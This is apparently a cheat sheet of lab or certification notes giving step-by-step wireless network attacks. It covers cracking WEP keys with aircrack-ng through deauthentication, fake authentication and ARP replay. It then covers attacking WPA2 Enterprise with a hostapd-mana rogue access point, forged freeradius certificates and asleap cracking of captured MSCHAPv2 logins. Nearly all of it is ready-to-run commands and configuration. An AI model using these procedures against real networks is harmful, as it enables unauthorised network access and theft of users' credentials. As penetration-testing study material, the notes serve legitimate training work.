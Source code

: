 ###Attacking WEP:

Prep monitoring interface

```
airmon-ng check kill
airmon-ng start wlan0
```

Setup active listener to catch traffic

```
airodump-ng --bssid <BSSID> -c <CHANNEL> -w <OUTFILE> <IFACE>
```
  
Deauth to generate some data and reveal clients

```
aireplay-ng -0 0 -a <BSSID> <IFACE>
```
  
Fake auth to generate IVs

```
aireplay-ng -1 6 -e <SSID> -a <BSSID> -h <CLIENT MAC> <IFACE>
```

Use ARP replay to catch and replay ARP packets, which will generate more data / IVs

```
aireplay-ng -3 -b <BSSID> -h <CLIENT MAC> <IFACE>
```

Be patient, it'll take a while to get enough IVs

Start running aircrack on the pcap file to crack it:

```
aircrack-ng <file>
```

Connect to network:

```
sudo /sbin/ifconfig wlan0 up
sudo /sbin/iwlist wlan0 scan
sudo /sbin/iwconfig wlan0 essid "NetworkName"
sudo /sbin/iwconfig wlan0 key network_key
sudo /sbin/iwconfig wlan0 enc on
```

You may need to run `dhclient wlan0`

alternative method:

```
sudo iwconfig wlan0 essid <SSID> key s:<KEY>
sudo dhclient wlan0
```

##WPA2 Enterprise:

Look for WPA MGT network in airodump

Grab cert files from wireshark / tshark traffic using tls.handshake.type == 11,3 or tls.handshake.certificate filters
  - view Packet Details >> TLSv1 Record Layer: Handshake Protocol: Certificate
  - save certificates to file, right click cert string and click Export Packet Bytes

View SSL cert info:

```
openssl x509 -inform der -in CERTIFICATE_FILENAME -text
```

Use freeradius to provide fake cert to clients
  - alter certificate_authority block in /etc/freeradius/3.0/certs/ca.cnf:
```
    [certificate_authority]
    countryName             = US
    stateOrProvinceName     = {2 letter state}
    localityName            = {City}
    organizationName        = {Company Name}
    emailAddress            = {Email}
    commonName              = "Such and Such Certificate Authority"
```
  - alter server block in /etc/freeradius/3.0/certs/server.cnf:
```
    [server]
    countryName             = US
    stateOrProvinceName     = {2 letter state}
    localityName            = {City}
    organizationName        = {Company Name}
    emailAddress            = {Email}
    commonName              = "Playtronics"
```
  - change dir to /etc/freeradius/3.0/certs/ and run:
  -- `rm dh`
  -- `make`

  - YOU WILL GET AN ERROR, but it doesn't matter

Setup hostapd-mana for the rogue AP using the (updated!) `mana.conf` file, move to `/etc/hostapd-mana/mana.conf`

Use mana.eap_user file, move to `/etc/hostapd-mana/mana.eap_user`

Start hostapd-mana:

```
hostapd-mana /etc/hostapd-mana/mana.conf
```

Hostapd-mana will output asleap commands, find a user with a successful login (from wireshark traffic) and run command like so:

```
<asleap command> -W /usr/share/john/password.lst
```

Create `wpa_supplicant.conf` file:

```
network={
  ssid="NetworkName"
  scan_ssid=1
  key_mgmt=WPA-EAP
  identity="Domain\username"
  password="password"
  eap=PEAP
  phase1="peaplabel=0"
  phase2="auth=MSCHAPV2"
}
```

Connect to network:

`wpa_supplicant -c <config file>`


Don't forget the grab and submit the proof. 
